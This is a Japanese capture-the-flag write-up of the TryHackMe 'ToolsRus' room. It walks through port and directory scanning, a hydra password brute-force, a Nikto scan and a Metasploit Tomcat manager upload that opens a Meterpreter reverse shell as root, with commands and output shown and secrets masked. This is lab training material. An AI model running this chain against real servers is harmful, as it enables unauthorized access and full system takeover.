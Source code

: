 # ToolsRus
https://tryhackme.com/room/toolsrus

```shell
[root@kali]# nmap -sC -sV -Pn 10.10.80.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 15:49 JST
Nmap scan report for 10.10.80.110
Host is up (0.26s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cf:c8:7f:b7:ae:a1:b1:af:e5:ca:31:93:86:2d:e4:fb (RSA)
|   256 5f:89:29:c0:31:2d:be:e0:4a:a0:7f:5d:34:bf:84:11 (ECDSA)
|_  256 d5:eb:49:ca:6f:d5:b1:ee:fd:3d:dd:cd:3a:40:8c:c4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.43 seconds
```

ブラウザで`:80`のトップページに行っても何もないので、ディレクトリを探す。  
```shell
[root@kali]# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -e -x php,html,txt -u http://10.10.80.110
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.80.110
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/08/15 16:00:27 Starting gobuster
===============================================================
http://10.10.80.110/index.html (Status: 200)
http://10.10.80.110/guidelines (Status: 301)
http://10.10.80.110/protected (Status: 401)
```
### #1 	What directory can you find, that begins with a "g"?
> guidelines

`bob`というユーザがいる様子。

```shell
[root@kali]# wget -q -O - http://10.10.80.110/guidelines/
Hey <b>bob</b>, did you update that TomCat server?
```
### #2 Whose name can you find from this directory?
> bob

`http://10.10.80.110/protected`にアクセスするとBasic認証を求められる。

### #3 What directory has basic authentication?
> protected

`bob`のパスワードを探す。  
```shell
[root@kali]# hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.80.110 http-get /protected
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 16:08:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.80.110:80/protected
[80][http-get] host: 10.10.80.110   login: bob   password: XXXXXXXX
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-15 16:08:09
```
### #4 What is bob's password to the protected part of the website?
> 🙅‍♂️

`bob:XXXXXXXX`でログインできるが、下のメッセージが表示されるので他のポートを見に行く。    
*This protected page has now moved to a different port.*

### #5 What other port that serves a webs service is open on the machine?
> 1234

`http://10.10.80.110:1234/`にアクセスするとTomcatのデフォルトページが表示される。  
### #6 Going to the service running on that port, what is the name and version of the software?
> Apache Tomcat/7.0.88

`dirbuster`で探すと`:1234`の認証画面`/manager/html`が見つかる。
認証情報を付けて、Niktoでスキャンをかける。  
スキャンが終るまで1時間かかる上に、結果を保存し損ねた。  
`Tomcat documentation found`の行数を数えればよい。
```shell
[root@kali]# nikto id bob:XXXXXXXX -h http://10.10.80.110:1234/manager/html
```
### #7 Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?
> 5

`http://10.10.80.110/aaa`など、存在しないパスにアクセスするとApacheバージョンが表示される。  
### #8 What is the server version (run the scan against port 80)?
> Apache/2.4.18

Niktoの結果やServerヘッダにCoyoteのバージョンが表示されている。  
### #9 What version of Apache-Coyote is this service using?
> 1.1

使えそうな手法を探す。  
```shell
[root@kali]# searchsploit -t tomcat code execution
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit)                | windows/remote/47073.rb
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Exec | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Exec | windows/webapps/42953.txt
Apache Tomcat Manager - Application Deployer (Authenticated) Code Execution (Metasploit)            | multiple/remote/16317.rb
Apache Tomcat Manager - Application Upload (Authenticated) Code Execution (Metasploit)              | multiple/remote/31433.rb
Apache Tomcat/JBoss EJBInvokerServlet / JMXInvokerServlet (RMI over HTTP) Marshalled Object - Remot | php/remote/28713.php
Tomcat - Remote Code Execution via JSP Upload Bypass (Metasploit)                                   | java/remote/43008.rb
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Metasploitから。接続を試みる。    
```shell
[root@kali]# msfconsole
msf5 > search tomcat deployer
：
   21  exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
：
msf5 exploit(multi/http/tomcat_mgr_deploy) > set rhosts 10.10.80.110
rhosts => 10.10.80.110
msf5 exploit(multi/http/tomcat_mgr_deploy) > set rport 1234
rport => 1234
msf5 exploit(multi/http/tomcat_mgr_deploy) > set HttpUsername bob
HttpUsername => bob
msf5 exploit(multi/http/tomcat_mgr_deploy) > set HttpPassword XXXXXXXXX
HttpPassword => XXXXXXXX
msf5 exploit(multi/http/tomcat_mgr_deploy) > run
msf5 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.9.22.111:4444
[*] Retrieving session ID and CSRF token...
[-] Exploit aborted due to failure: unknown: Unable to access the Tomcat Manager
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.9.22.111:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying qszctRV98NJ0vvr0q0RPty9...
[*] Executing qszctRV98NJ0vvr0q0RPty9...
[*] Sending stage (53944 bytes) to 10.10.80.110
[*] Meterpreter session 1 opened (10.9.22.111:4444 -> 10.10.80.110:52756) at 2020-08-15 16:50:13 +0900
[*] Undeploying qszctRV98NJ0vvr0q0RPty9 ...

meterpreter > pwd
/
meterpreter > cd /root
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100667/rw-rw-rwx  47    fil   2019-03-12 01:06:14 +0900  .bash_history
100667/rw-rw-rwx  3106  fil   2015-10-23 02:15:21 +0900  .bashrc
40777/rwxrwxrwx   4096  dir   2019-03-12 00:30:33 +0900  .nano
100667/rw-rw-rwx  148   fil   2015-08-18 00:30:33 +0900  .profile
40777/rwxrwxrwx   4096  dir   2019-03-11 06:52:32 +0900  .ssh
100667/rw-rw-rwx  658   fil   2019-03-12 01:05:22 +0900  .viminfo
100666/rw-rw-rw-  33    fil   2019-03-12 01:05:22 +0900  flag.txt
40776/rwxrwxrw-   4096  dir   2019-03-11 06:52:43 +0900  snap

meterpreter > cat flag.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### #10	Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?
> root

### #11 What text is in the file /root/flag.txt
> 🙅‍♂️
